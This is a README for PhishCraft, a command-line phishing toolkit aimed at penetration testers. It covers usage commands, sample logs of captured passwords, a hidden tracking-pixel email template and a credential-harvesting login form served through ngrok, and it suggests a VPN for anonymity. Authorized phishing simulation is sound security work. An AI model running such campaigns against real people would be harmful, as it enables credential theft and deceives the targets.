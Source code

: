 # PhishCraft

## Overview
PhishCraft is a command-line phishing tool for ethical cybersecurity researchers and penetration testers, designed for Kali Linux. It automates the creation, delivery, and tracking of phishing emails with embedded tracking pixels and hosts phishing pages to capture credentials. PhishCraft uses Flask for hosting, ngrok for WAN access, and a local SMTP server for email delivery. It is intended for authorized security testing only.

## Features
- Generates phishing emails with customizable HTML templates (e.g., password reset).
- Embeds tracking pixels to monitor email opens (IP, user-agent, timestamp).
- Hosts phishing pages locally, exposed via ngrok.
- Captures credentials (username, password) and victim details (IP, user-agent).
- Supports multiple recipients via CSV input.
- Logs email sends, pixel tracking, and credentials to JSON and CSV.
- Redirects victims to legitimate sites after capture (optional).
- Generates a summary report with campaign statistics.
- Optimized for Kali Linux.

## Prerequisites
- Kali Linux (or similar environment)
- Python 3.6 or higher
- Python libraries: `flask`, `requests`, `pyngrok` (installed via setup script)
- Ngrok account and auth token (free tier sufficient)
- Local SMTP server (e.g., Postfix) configured on localhost:25
- Input: Internet connection, ngrok access, recipient CSV

## Installation

### Setup
1. Clone or download the repository.
2. Run the setup script to install dependencies and create a virtual environment:
   ```bash
   chmod +x set_upfile.sh
   ./set_upfile.sh
   ```
3. Activate the virtual environment:
   ```bash
   source venv/bin/activate
   ```
4. Configure ngrok:
   - Sign up at [ngrok.com](https://ngrok.com) and get your auth token.
   - Set the token:
     ```bash
     export NGROK_AUTH_TOKEN=your_auth_token_here
     ```
5. Configure a local SMTP server:
   - Install Postfix:
     ```bash
     sudo apt-get install postfix
     ```
   - Ensure it’s running on localhost:25.

## Usage
Run the tool with:
```bash
python phishcraft.py -r <recipients> -s <sender> [-e <email-template>] [-p <phish-template>] [-j <subject>] [-u <redirect>] [-o <output-dir>] [--smtp-port <port>] [--flask-port <port>] [--verbose]
```

- **-r, --recipients**: CSV file with recipient emails (column: `email`).
- **-s, --sender**: Sender email (e.g., `alert@company.com`).
- **-e, --email-template**: Email template file (default: `email_reset.html`).
- **-p, --phish-template**: Phishing page template (default: `login.html`).
- **-j, --subject**: Email subject (default: `Urgent: Reset Your Password`).
- **-u, --redirect**: Redirect URL after capture (e.g., `https://example.com`).
- **-o, --output-dir**: Output directory (default: `phishcraft_output`).
- **--smtp-port**: SMTP port (default: 25).
- **--flask-port**: Flask port (default: 5000).
- **--verbose**: Print detailed logs.

### Recipient CSV Format
```csv
email
user1@example.com
user2@example.com
```

### Examples
1. **Send a password reset phishing email**:
   ```bash
   python phishcraft.py -r recipients.csv -s alert@company.com -e email_reset.html -p login.html -u https://example.com -o results --verbose
   ```
   Output:
   ```
   2025-05-15 18:30:00 - INFO - Ngrok tunnel started: https://abc123.ngrok.io
   2025-05-15 18:30:00 - INFO - Sent email to user1@example.com
   2025-05-15 18:30:00 - INFO - Phishing page hosted at: https://abc123.ngrok.io/phish
   2025-05-15 18:30:00 - INFO - Waiting for interactions...
   2025-05-15 18:30:05 - INFO - Tracked: 192.168.1.100 opened email (ID: 20250515183000)
   2025-05-15 18:30:10 - INFO - Captured: testuser:pass123 from 192.168.1.100
   ```

2. **Use custom templates**:
   ```bash
   python phishcraft.py -r recipients.csv -s alert@company.com -e custom_email.html -p custom_login.html -o results
   ```

### Output Files
- **Tracking Log** (`tracking.json`):
  ```
  {"tracking_id":"20250515183000","timestamp":"2025-05-15T18:30:05","ip":"192.168.1.100","user_agent":"Mozilla/5.0..."}
  ```
- **Credentials CSV** (`credentials.csv`):
  ```csv
  timestamp,ip,user_agent,username,password
  2025-05-15T18:30:10,192.168.1.100,Mozilla/5.0...,testuser,pass123
  ```
- **Summary Report** (`summary.txt`):
  ```
  PhishCraft Summary Report - 2025-05-15T18:30:00
  --------------------------------------------------
  Sender: alert@company.com
  Subject: Urgent: Reset Your Password
  Emails Sent: 2
  Emails Opened: 1
  Credentials Captured: 1
  --------------------------------------------------
  ```

## Creating Custom Templates
1. **Email Template**:
   - Create an HTML file (e.g., `custom_email.html`) with placeholders:
     ```html
     <p>Click <a href="{{PHISH_URL}}">here</a> to reset your password.</p>
     <img src="{{TRACKING_PIXEL}}" style="display:none;" />
     ```
   - Place in `templates/`.
2. **Phishing Page**:
   - Create an HTML file (e.g., `custom_login.html`) with a form:
     ```html
     <form action="/login" method="POST">
         <input type="text" name="username" placeholder="Username" required>
         <input type="password" name="password" placeholder="Password" required>
         <button type="submit">Login</button>
     </form>
     ```
   - Place in `templates/`.
3. Run with:
   ```bash
   python phishcraft.py -r recipients.csv -s alert@company.com -e custom_email.html -p custom_login.html
   ```

## Limitations
- Requires a local SMTP server; external servers (e.g., Gmail SMTP) need additional configuration.
- Ngrok free tier has temporary URLs and connection limits.
- Tracking pixel may be blocked by email clients or security software.
- Credential capture is basic; advanced phishing may require session cookies or 2FA handling.
- No built-in spoofing; sender email must be valid for SMTP.
- Assumes stable internet and ngrok access.

## License
MIT License

## Warning
PhishCraft is for ethical security testing and authorized penetration testing only. Unauthorized use to phish or exploit systems you do not own or have permission to test is illegal and unethical. Always obtain explicit permission before conducting phishing simulations. The author is not responsible for misuse.

## Recommendations
- Test in a controlled lab environment with dummy emails and credentials.
- Use with explicit client permission and clear scope.
- Combine with security awareness training.
- Use a VPN for anonymity during testing.
- Monitor ngrok dashboard for connection issues.
- Ensure SMTP server is secure to prevent abuse.